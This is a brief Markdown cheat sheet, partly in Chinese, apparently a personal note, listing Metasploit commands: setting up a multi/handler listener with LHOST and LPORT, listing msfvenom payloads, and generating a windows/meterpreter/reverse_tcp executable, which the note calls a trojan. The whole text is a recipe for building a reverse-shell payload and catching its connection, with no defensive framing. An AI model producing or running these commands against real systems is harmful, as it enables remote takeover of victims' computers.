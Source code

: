 ## msfconsole
use multi/handler
set LHOST IP
set LPORT 端口
exploit
## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe -o 路径` 可以在 msfconsole 中使用

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTk4MDkyMzA4Nyw3MzUxNjQ3NTJdfQ==
-->